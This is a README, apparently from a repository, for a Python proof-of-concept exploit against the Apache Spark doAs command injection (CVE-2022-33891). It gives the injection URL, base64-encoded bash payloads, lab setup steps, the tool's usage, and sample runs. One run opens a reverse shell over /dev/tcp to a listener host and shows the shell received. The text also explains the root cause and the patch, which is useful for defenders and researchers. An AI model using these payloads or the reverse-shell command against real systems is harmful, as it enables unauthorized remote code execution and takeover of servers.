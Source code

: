 # CVE-2022-33891
Apache Spark Shell Command Injection Vulnerability

A Python POC for exploiting the Apache Spark Shell Command Injection vulnerability.

## Affected Versions
Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

## Vulnerable component
```
http://localhost:8080/?doAs=`[command injection here]`
```
Example
```
http://localhost:8080/?doAs=`echo%20%22c2xlZXAgMTAK%22%20|%20base64%20-d%20|%20bash`
```
... sleeps for 10 seconds


## Setup
You need a vulnerable version of Spark that has a single config option changed.

- Install the dependencies: `$ pip3 install -r requirements.txt`
- Change directories into the `spark/` directory.
- Use the provided `docker-compose.yml` in the `spark/` directory and run `docker-compose up`. Let the container spin up.
- In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
- In the container bash session, enter: `echo "spark.acls.enable       true" >> conf/spark-defaults.conf`
- Optionally, cat the contents of spark-defaults.conf to make sure it looks good.
- Exit the interactice bash shell and Ctl-C your docker-compose process.
- Once the containers have powered down gracefully, rerun `docker-compose up`


## Usage
```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 exploit.py -h
usage: poc.py [-h] -u URL -p PORT [--revshell]
              [-lh LISTENINGHOST] [-lp LISTENINGPORT]
              [--check] [--verbose]

CVE-2022-33891 Python POC Exploit Script

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     URL to exploit.
  -p PORT, --port PORT  Exploit target's port.
  --revshell            Reverse Shell option.
  -lh LISTENINGHOST, --listeninghost LISTENINGHOST
                        Your listening host IP address.
  -lp LISTENINGPORT, --listeningport LISTENINGPORT
                        Your listening host port.
  --check               Checks if the target is
                        exploitable with a sleep test
  --verbose             Verbose mode

```

## Examples

Check to see if the target is vulnerable:
```
:~/Desktop/cve-2022-33891$ python3 exploit.py -u http://localhost -p 8080 --check --verbose
[*] Attempting to connect to site...
[*] URL request: http://localhost:8080/?doAs='testing'
[*] Response status code: 403
[!] Performing sleep test of 10 seconds...
[*] T1: 2022-07-22 10:47:48.406996
[*] Command is: sleep 10
[*] Base64 command is: c2xlZXAgMTA=
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgMTA= | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[*] T2: 2022-07-22 10:47:58.425108
[*] Delta T: 10
[+] Sleep was 10 seconds! This target is probably vulnerable!
```

Issue commands in a command prompt loop:
```
:~/Desktop/cve-2022-33891$ python3 exploit.py -u http://localhost -p 8080 --verbose
[*] "Interactive" mode!
[!] Note: you will not receive any output from these commands. Try using something like ping or sleep to test for execution.
[cve-2022-33891> sleep 5
[*] Command is: sleep 5
[*] Base64 command is: c2xlZXAgNQ==
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2xlZXAgNQ== | base64 -d | bash`
[*] Sending exploit...
[*] Response status code: 403
[*] Hint: 403 is good.
[cve-2022-33891> 
```

Execute a reverse shell:
```
:~/Desktop/cve-2022-33891$ python3 exploit.py -u http://localhost -p 8080 --revshell -lh 10.10.1.237 -lp 9001 --verbose
[*] Reverse shell mode.
[*] Set up your listener by entering the following:
nc -nvlp 9001
[*] When your listener is set up, press enter!
[*] Command is: sh -i >& /dev/tcp/10.10.1.237/9001 0>&1
[*] Base64 command is: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx
[*] Full exploit request is: http://localhost:8080/?doAs=`echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMS4yMzcvOTAwMSAwPiYx | base64 -d | bash`
[*] Sending exploit...

...[in the other terminal]...

:~/Desktop/cve-2022-33891$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 172.19.0.2 52136
sh: 0: can't access tty; job control turned off
$ whoami
spark
$ echo "devengpk"
devengpk
$ 
```

## More Info
The command injection occurs because Spark checks the group membership of the user passed in the `?doAs` parameter by using a raw Linux command. Bash interpolation runs the command, sends the output to the `id` field, and attempts to look up the resulting user.

Passing in `which python` as the value of `?doAs=` user produces this result in the traceback:
```
...
http://localhost:8080/?doAs=`which%20python`
...

spark_1  | 22/07/22 15:15:57 INFO Utils: id: '/opt/bitnami/python/bin/python': no such user
spark_1  | 22/07/22 15:15:57 ERROR Utils: Process List(bash, -c, id -Gn `which python`) exited with code 1: 
spark_1  | 22/07/22 15:15:57 ERROR Utils: Error getting groups for user=`which python`
```
Here, Java has decided it would be best to pass in the `id` command into `bash -c` to check the group membership for a specified user. Problem is, that also allows command injection. Bash interpolation has evaluated the given command and printed the results on line 1 of this output and tries to look up the user by the stdout of the command.

There's no user named `/opt/bitnami/python/bin/python` but that sure as hell means the command was passed to Bash and executed.

Patched versions parametrize this call to have a full path to the `/bin/id` command instead of to `bash -c id`.

It's worth noting that there is nothing reflected back on the page during command execution, so this is blind OS injection. Your commands run, but there will be no indication if they worked or not or even if the program you're running is on the target. For example, the container that is spun up with the `docker-compose.yml` file in this repo does not have ping, so checking for command injection via a pingback will not work. But you won't know that's the case so you'll be left wondering if it worked or not.

The sleep test is a safe bet ^.^

## OPSEC

I spent precisely zero cycles making this OPSEC safe. Red teamers, that's on you.

## Disclaimer
This POC has no passive enumeration capability. The exploit is a blind command injection. If you use this script against a target, you are sending packets to it. Even if you use the `--check` parameter and the target is vulnerable, you are actively exploit it to prove that it's vulnerable.

Don't use this on production systems that are sensitive to testing. Do not use this against targets if you do not have authorization to do so. I'm not even close to liable for how you choose to use this.

Peep the license.

## References
- https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/
- https://nvd.nist.gov/vuln/detail/CVE-2022-33891
- https://spark.apache.org/docs/2.1.0/configuration.html

